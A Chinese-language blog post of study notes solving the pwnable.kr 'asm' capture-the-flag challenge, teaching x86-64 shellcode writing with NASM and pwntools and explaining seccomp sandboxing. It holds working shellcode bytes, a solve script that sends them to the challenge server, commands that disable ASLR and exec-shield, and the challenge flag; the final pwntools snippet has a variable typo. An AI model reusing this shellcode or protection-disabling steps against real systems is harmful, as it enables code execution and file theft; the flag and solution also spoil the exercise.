 ```yaml
---
layout: post
date:   2017-07-11 15:14:54
categories: 学习笔记
tags:   linux shellcode pwnable.kr
---
```

# 壹、 linux下基本shellcode的编写 *(pwnable，asm)*

刷到了pwnable.kr中的asm题，开始系统学习shellcode。问题代码专注写利用即可，抽象如下：

	char code[] = "bytecode will go here!";
	int main(int argc, char **argv)
	{
		int (*func)();
		func = (int (*)()) code;
		(int)(*func)();
	}

关闭保护的方法：<br>
echo 0 > /proc/sys/kernel/exec-shield   #turn it off<br>
echo 0 > /proc/sys/kernel/randomize_va_space #turn it off<br>

这里我打算用两个方法写shellcode.
## 1 基础的“写汇编代码”→“汇编”→“提取字节码” 方法。

### Q1: 汇编与生成方法
- 目前我使用如下命令来生成和提取：

	$ nasm -f elf64 exit.asm
	$ ld -o exiter exit.o
	$ objdump -d exiter

### Q1: 字符串传入?
这里有一个困扰了我的问题，就是字符串怎么传入的问题，这里方法很巧妙，就是把字符串放在末尾，前面使用call的方式，这样字符串的地址就出现在了栈上，就可以pop到想要的寄存器中去了。

### Q2: syscall 和 int 80 不等价？
根据[文档](http://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/)，系统调用应该就是int 0x80的形式，但是我在虚拟机中调试发现int 80 并不能实现syscall的功能，字节码也不一样。
果然在[stackoverflow](https://stackoverflow.com/questions/12806584/what-is-better-int-0x80-or-syscall)上有了回答：

- `syscall` is default way of entering kernel mode on x86-64. This instruction is not available in 32 bit modes of operation on Intel processors.
- `sysenter` is an instruction most frequently used to invoke system calls in 32 bit modes of operation. It is similar to syscall, a bit more difficult to use though, but that is kernel's concern.
- `int 0x80` is a legacy way to invoke a system call and should be avoided.

所以，64位下还是用syscall为好，老旧的kernel再使用int 0x80。

### 题解：
流程是先open，然后read到栈上，再write到标准输出

- shellcode.asm:<br>

```
global _start:
_start:
	jmp short endder;
starter:
	mov rax, 2; sys_open
	pop rdi;
	mov rsi, 0;
	syscall;

	mov rsi, rsp;
	mov rdi, rax;
	xor rax,rax; sys_read
	mov rdx, 100;
	syscall;

	mov rax, 1; sys_write
	mov rdi, 1;
	syscall;

	mov rax, 60;
	syscall;

endder:
	call starter;
	db 'this_is_pwnable.kr_flag_file_please_read_this_file.sorry_the_file_name_is_very_loooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0000000000000000000000000ooooooooooooooooooooooo000000000000o0o0o0o0o0o0ong'
```

- solve.py:

```
import pwn

payload = '\xeb0\xb8\x02\x00\x00\x00_\xbe\x00\x00\x00\x00\x0f\x05H\x89\xe6H\x89\xc7H1\xc0\xbad\x00\x00\x00\x0f\x05\xb8\x01\x00\x00\x00\xbf\x01\x00\x00\x00\x0f\x05\xb8<\x00\x00\x00\x0f\x05\xe8\xcb\xff\xff\xffthis_is_pwnable.kr_flag_file_please_read_this_file.sorry_the_file_name_is_very_loooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0000000000000000000000000ooooooooooooooooooooooo000000000000o0o0o0o0o0o0ong\x00'
con = pwn.ssh(user='asm', password = 'guest', host = 'pwnable.kr', port = 2222)
tunnel = con.remote('0', 9026)
tunnel.send(payload)
tunnel.interactive()
```
flag: Mak1ng_shelLcodE_i5_veRy_eaSy, [参考链接](https://etenal.me/archives/972#C22)

## 2 使用pwntools工具（pwn.shelldrift）

首先要设置目标环境，学习到两个姿势：

- *方法一*、使用pwn.context(arch="amd64", os = 'linux')设定好目标环境，还可以类似pwn.context.log_level='debug'这样设置目标环境<br>
  然后再使用pwn.shellcraft.*中的各种例如syscall，open，read等方法。
- *方法二*、直接使用pwnlib.shellcraft.amd64.linux.*中的各种例如syscall，open，read等方法
- 以上方法都是生成asm源码，还要用pwn.asm生成对应字节码。<br>
<br>_pwnlib和from pwn import *有点微妙的关系目前还没弄懂_

shellcraft.*中有各种基本的方法，如mov等的操作，写起来和原始汇编差别不大，注意寄存器要写成带引号的字符串形式。同时也有`syscall(syscall=None, arg0=None, arg1=None, arg2=None, arg3=None, arg4=None, arg5=None)`等集成比较好的方法。我们这里用的open、read、write也有集成了。可以参考[pwntools官方文档](https://docs.pwntools.com/en/stable/shellcraft/amd64.html#module-pwnlib.shellcraft.amd64)。<br>

[这里](http://blog.csdn.net/qq_33528164/article/details/71023772)给的题解很清晰明了，连如何放置字符串都不需要考虑（pushstr只有方法一中有）。但是我好奇字符串位置，就把shellcode拿出来看了一下：<br>
<img src="{{ site.baseurl }}/images/{5$]7M213M7TMIQAG}H`9@N.png"><br>
看来这篇博客错了，这里生成的是原始的.asm源码文件，[这里](http://veritas501.space/2017/04/30/pwnable.kr_writeup/)的用法是正确的，还要用pwn.asm生成对应的字节码。不过这里的push字符串的方法可以参考，也是一种方法，拆开成碎片逐个push到栈上。经过测试，我下面这个payload也能够生效的。
```
from pwn import *
context(os='linux', arch='amd64')
asmcode = ''
asmcode += shellcraft.pushstr("this_is_pwnable.kr_flag_file_please_read_this_file.sorry_the_file_name_is_very_loooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0000000000000000000000000ooooooooooooooooooooooo000000000000o0o0o0o0o0o0ong")
asmcode += shellcraft.open('rsp',0,0)
asmcode += shellcraft.read('rax','rsp',100)
asmcode += shellcraft.write(1,'rsp',100)
shellcode = asm(shellcode)
```



---
# 贰、 Linux沙箱: seccomp sandbox  *(pwnable, asm)*

Seccomp(secure computing)是Linux kernel （自从2.6.23版本之后）所支持的一种简洁的sandboxing机制。它能使一个进程进入到一种“安全”运行模式，该模式下的进程只能调用4种系统调用（system calls），即read(), write(), exit()和sigreturn()，否则进程便会被终止。

- seccomp_rule_add(scmp_filter_ctx ctx, uint32_t action, int syscall, unsigned int arg_cnt, ...);
- seccomp_rule_add_array(scmp_filter_ctx ctx,
                                  uint32_t action, int syscall,
                                  unsigned int arg_cnt,
- seccomp_rule_add_exact(scmp_filter_ctx ctx, uint32_t action,
                                  int syscall, unsigned int arg_cnt, ...);
- seccomp_rule_add_exact_array(scmp_filter_ctx ctx,
                                        uint32_t action, int syscall,
                                        unsigned int arg_cnt,
                                        const struct scmp_arg_cmp *arg_array);

以上等方法会添加新的过滤器到seccomp过滤器中。这个方法会因为处理器架构的不同而在细节上有一些差异。新添加的filter rule需要通过[seccomp_load(3)](http://man7.org/linux/man-pages/man3/seccomp_load.3.html)来生效。[参见linux man手册](http://man7.org/linux/man-pages/man3/seccomp_rule_add.3.html)

如下面是pwnable.kr中asm的题目代码，可以作为一个范例

	#include <seccomp.h>
	scmp_filter_ctx ctx = seccomp_init(SCMP_ACT_KILL);
	...
	seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(open), 0);
	...
	seccomp_load(ctx); //enable
	seccomp_release(ctx);

表明允许open这一系统调用的进行。

注，gcc编译时应该使用 -lseccomp参数

---